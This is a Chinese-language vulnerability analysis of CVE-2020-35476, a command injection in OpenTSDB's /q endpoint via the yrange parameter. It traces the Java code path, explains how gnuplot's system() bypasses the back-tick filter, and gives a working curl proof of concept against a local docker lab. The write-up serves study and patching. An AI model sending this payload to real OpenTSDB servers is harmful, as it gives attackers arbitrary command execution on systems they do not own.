


# CVE-2020-35476 CWE-78 OpenTSDB 命令注入

## 漏洞背景

**/q 接口**：OpenTSDB 提供了基于 HTTP 的 API 接口，允许用户查询、存储和管理时间序列数据。其中，`/q` 接口用于查询时间序列数据，支持多种参数以满足不同的查询需求。`/q` 接口还支持其他参数，以提供更灵活的查询功能，如`xrange` 和 `yrange`：设置 X 轴和 Y 轴的显示范围。

## 漏洞原理

在 OpenTSDB 的 `/q` 接口中，存在一个 `yrange` 参数。用户提交的 `yrange` 参数值会被写入到 `/tmp` 目录下的 gnuplot 文件中，然后通过 `mygnuplot.sh` 脚本执行。虽然 `tsd/GraphHandler.java` 尝试通过阻止反引号来防止命令注入，但这种措施不足以完全避免命令注入的风险，例如使用 `system()` 函数直接执行命令。由于 `system()` 函数的使用不包含反引号，因此能够绕过仅针对反引号的过滤机制，成功在服务器上执行任意命令。

由于未对 yrange 参数的输入进行充分的过滤和验证，导致可能的命令注入风险，通过精心构造的 `yrange` 参数，注入恶意命令，从而在服务器上执行任意代码。

## 漏洞定位

1、**处理URL请求**：在 **src/tsd/GraphHandler.java** 文件中，第 **109** 行，当用户通过 URL 提供参数并提交请求时，`GraphHandler` 类的带参数的 `execute` 方法会被调用。这个方法负责处理 HTTP 请求并生成响应。如果请求包含 `json`、`png` 或 `ascii` 参数，会调用 `doGraph` 方法来处理图表生成的逻辑。接下来跟踪解析查询参数的 doGraph 函数

```java
public void execute(final TSDB tsdb, final HttpQuery query) {
    if (!query.hasQueryStringParam("json")
        && !query.hasQueryStringParam("png")
        && !query.hasQueryStringParam("ascii")) {
      String uri = query.request().getUri();
      if (uri.length() < 4) {  // Shouldn't happen...
        uri = "/";             // But just in case, redirect.
      } else {
        uri = "/#" + uri.substring(3);  // Remove "/q?"
      }
      query.redirect(uri);
      return;
    }
    try {
      doGraph(tsdb, query);
    } catch (IOException e) {
      query.internalError(e);
    } catch (IllegalArgumentException e) {
      query.badRequest(e.getMessage());
    }
  }
```

2、**处理图表生成的逻辑**：在 **src/tsd/GraphHandler.java** 文件中，第 **135** 行，`doGraph`方法解析请求中的其他参数，如时间范围、数据查询等，其中的第 **208** 行调用了`setPlotParams`函数，是从查询字符串中提取指定的参数。之后会调用`rungnuplot`函数执行脚本文件

```java
private void doGraph(final TSDB tsdb, final HttpQuery query)
    // ... ...
    setPlotParams(query, plot);
    // ... ...

    final RunGnuplot rungnuplot = new RunGnuplot(query, max_age, plot, basepath,
            aggregated_tags, npoints);
	// ... ...
  }
```

3、**提取指定的参数**：在 **src/tsd/GraphHandler.java** 文件中，第 **711** 行`setPlotParams`函数，其作用是从查询字符串中提取指定的参数，经过`popParam`函数处理`yrange`参数后，将其添加到 `params` 映射中。在处理了一系列参数后，`plot.setParams(params)` 将这些参数应用到 `plot` 对象。

```java
 static void setPlotParams(final HttpQuery query, final Plot plot) {
    final HashMap<String, String> params = new HashMap<String, String>();
    final Map<String, List<String>> querystring = query.getQueryString();
    String value;
    if ((value = popParam(querystring, "yrange")) != null) {
      params.put("yrange", value);
    }
     // ... 其他参数处理 ...
     plot.setParams(params);
 }
```

4、**处理参数**：在 **src/tsd/GraphHandler.java** 文件中，跟踪`popParam`函数，第 **690** 行，其作用是检查字符串`param`中是否包含反引号（`）或其编码形式（%60 或 &#96），这个函数虽然其尝试通过阻止反引号来阻止命令注入，但能够绕过，如通过 system() 函数直接执行命令（修复后的代码设置了一个严格的匹配允许列表来检查）

```java
private static String popParam(final Map<String, List<String>> querystring,
                                     final String param) {
    final List<String> params = querystring.remove(param);
    if (params == null) {
      return null;
    }
    final String given = params.get(params.size() - 1);
    // TODO - far from perfect, should help a little.
    if (given.contains("`") || given.contains("%60") || 
        given.contains("&#96;")) {
      throw new BadRequestException("Parameter " + param + " contained a "
          + "back-tick. That's a no-no.");
    }
    return given;
  }
```

5、**保存参数**：继续分析 plot.setParams 方法，跟踪到文件 **src/graph/Plot.java** ，第**137** 行 setParams 函数。在 `setParams` 方法中，传入的 `params` `params` 映射中的每个键值对都会被提取出来，包括 `yrange` 参数，并存储到 `this.params` 中

```java
 public void setParams(final Map<String, String> params) {
    // check "format y" and "format y2"
    String[] y_format_keys = {"format y", "format y2"};
    for(String k : y_format_keys){
      if(params.containsKey(k)){
        params.put(k, URLDecoder.decode(params.get(k)));
      }
    }
    this.params = params;
  }
```

6、**将参数写入脚本**：在 **src/graph/Plot.java** 文件中继续跟踪对`params` 的处理，第 **137** 行 writeGnuplotScript 函数。在 `writeGnuplotScript` 方法中，`params` 中的 `yrange` 参数被用来生成 Gnuplot 脚本文件。如果 `yrange` 参数存在且值不为空，则将其写入 Gnuplot 脚本文件中

```java
private void writeGnuplotScript(final String basepath,
                               final String[] datafiles) throws IOException {
  final String script_path = basepath + ".gnuplot";
  final PrintWriter gp = new PrintWriter(script_path);
  try {
    // ... 其他 Gnuplot 脚本设置 ...
    if (params != null) {
      for (final Map.Entry<String, String> entry : params.entrySet()) {
        final String key = entry.getKey();
        final String value = entry.getValue();
        if (value != null) {
          gp.append("set ").append(key)
            .append(' ').append(value).write('\n');
        } else {
          gp.append("unset ").append(key).write('\n');
        }
      }
    }
    // ... 其他 Gnuplot 脚本设置 ...
  } finally {
    gp.close();
    LOG.info("Wrote Gnuplot script to " + script_path);
  }
}
```

7、**执行脚本**：回到 **src/tsd/GraphHandler.java** 文件中，第 **780** 行，Gnuplot 文件的执行是在 `runGnuplot` 中通过 Java 的 `ProcessBuilder` 类来完成的，其中使用了 plot.dumpToFiles 方法 来生成 Gnuplot 文件。从代码可以看出`GNUPLOT` 是一个静态变量，它指向 Gnuplot 的可执行文件或脚本。在 OpenTSDB 项目中，`GNUPLOT` 通常被设置为 `mygnuplot.sh` 脚本的路径

```java
static int runGnuplot(final HttpQuery query,
                        final String basepath,
                        final Plot plot) throws IOException {
    final int nplotted = plot.dumpToFiles(basepath);
    final long start_time = System.nanoTime();
    final Process gnuplot = new ProcessBuilder(GNUPLOT,
      basepath + ".out", basepath + ".err", basepath + ".gnuplot").start();
    final int rv;
    try {
      rv = gnuplot.waitFor();  // Couldn't find how to do this asynchronously.
    } catch (InterruptedException e) {
      Thread.currentThread().interrupt();  // Restore the interrupted status.
      throw new IOException("interrupted", e);  // I hate checked exceptions.
    } finally {
      gnuplot.destroy();
    }
    gnuplotlatency.add((int) ((System.nanoTime() - start_time) / 1000000));
    // ... ...
  }
```

8、**执行保存的脚本**：跟踪 plot.dumpToFiles 方法，在  **src/graph/Plot.java** 文件中，第 **204 **行，使用了 writeGnuplotScript 方法来生成Gnuplot 文件。`dumpToFiles` 负责整体的数据准备和脚本生成，而 `writeGnuplotScript` 专注于脚本文件的生成。

```java
public int dumpToFiles(final String basepath) throws IOException {
    // ... ...
    writeGnuplotScript(basepath, datafiles);
    return npoints;
  }
```

9、回到第2点，doGraph 函数调用 rungnuplot 函数执行脚本文件


综上，`GraphHandler.execute`函数处理 url 调用`GraphHandler.doGraph`处理图表生成的逻辑，`GraphHandler.doGraph`再调用`GraphHandler.popParam`接收参数后，`GraphHandler.popParam`再调用`plot.setParams`处理参数，处理完后`GraphHandler.doGraph`调用`GraphHandler.runGnuplot`函数执行 Gnuplot 脚本，`GraphHandler.runGnuplot`函数调用`plot.dumpToFiles()`生成 Gnuplot 脚本和数据文件，`plot.dumpToFiles()`函数再调用`plot.writeGnuplotScript()`函数生成脚本，生成后回到`GraphHandler.runGnuplot`函数调用 `mygnuplot.sh`执行生成的脚本

在之前的漏洞（CVE-2018-12972）被披露后，官方在 `GraphHandler.java` 中第 697 行引入了对反引号的过滤，以防止命令注入：

```java
if (given.contains("`") || given.contains("%60") || given.contains("&#96;")) {
    throw new BadRequestException("Parameter " + param + " contained a back-tick. That's a no-no.");
}
```

然而，可以通过构造特定的输入绕过此防护，例如使用 `[33:system('touch /tmp/poc.txt')]` 作为 `yrange` 参数值。当 OpenTSDB 处理该参数时，会将其写入临时的 gnuplot 文件，并在执行 `mygnuplot.sh` 脚本时触发命令执行，导致在服务器上创建 `/tmp/poc.txt` 文件。

漏洞主要发生在`plot.setParams`处理参数时，即第2点的`setPlotParams `函数中，未对 yrange 参数的输入进行充分的过滤和验证，提交URL请求后会自动将恶意代码保存在`Gnuplot`脚本中并自动执行

## 影响版本

OpenTSDB <= 2.4.0

## 环境搭建

启动docker环境，OpenTSDB 版本为2.4.0



## 漏洞复现

进入容器命令行：`docker exec -it opentsdb-2.4.0 bash`。

1、由于在利用漏洞时需要知道一个不为空的`metric`的名字，通过以下命令查看`metric`列表

```bash
curl "http://localhost:4242/api/suggest?type=metrics&q=&max=10"; echo
```

2、若为空，通过以下命令，利用API创建一个名为`sys.cpu.nice`的metric并添加一条记录；如果目标`OpenTSDB`存在`metric`，且不为空，则无需执行

```bash
curl -X POST -d '[{"metric": "sys.cpu.nice", "timestamp": 1676984400, "value": 50, "tags": {"host": "server1"}}]' http://localhost:4242/api/put; echo
```

3、在执行下面的命令前通过`ls /tmp/`命令查看tmp目录下的文件

4、执行如下命令，其中参数`m`的值必须包含一个有数据的`metric`，该命令是执行`touch /tmp/success`命令，用于修改success文件的访问和修改时间，或者创建新的success空文件，之后再通过`ls /tmp/`命令查看tmp目录下的文件，可以看到成功创建了名为`success`的文件

```bash
curl "http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=%5B0:system(%27touch%20/tmp/success%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"; echo
```



## POC分析

```bash
curl "http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=%5B0:system(%27touch%20/tmp/success%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"; echo
```

`yrange` 参数被设置为 `[0:system('touch /tmp/success')]`。该参数经过 URL 编码，`%5B` 和 `%5D` 分别表示方括号 `[` 和 `]`，`%27` 表示单引号 `'`。解码后，`yrange` 的值为 `[0:system('touch /tmp/success')]`。

在这个上下文中，`system('touch /tmp/success')` 将调用系统命令，在 `/tmp` 目录下创建一个名为 `success` 的空文件。如果服务器上的 OpenTSDB 存在此漏洞且未修复，执行上述 `curl` 命令后，服务器将执行 `touch /tmp/success` 命令，从而在 `/tmp` 目录下创建该文件。

## 参考链接

[OS Command Injection in OpenTSDB · CVE-2020-35476 · GitHub Advisory Database](https://github.com/advisories/GHSA-hv53-q76c-7f8c)

[vulhub/opentsdb/CVE-2020-35476/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/opentsdb/CVE-2020-35476/README.zh-cn.md)

[修复远程代码执行问题 #2051，通过添加正则表达式验证器实现 by manolama · 提交请求 #2127 · OpenTSDB/opentsdb --- Fix remote code execution #2051 by adding regex validators for the by manolama · Pull Request #2127 · OpenTSDB/opentsdb](https://github.com/OpenTSDB/opentsdb/pull/2127)

[Fix remote code execution #2051 by adding regex validators for the · manolama/opentsdb@c757576](https://github.com/manolama/opentsdb/commit/c75757601d6169c47f5b29b8c96232ca884c855b#diff-b1e89c14cdf66680c7fc71978b2c865883dd4aad6956c465d3d00108e6e0eef1)
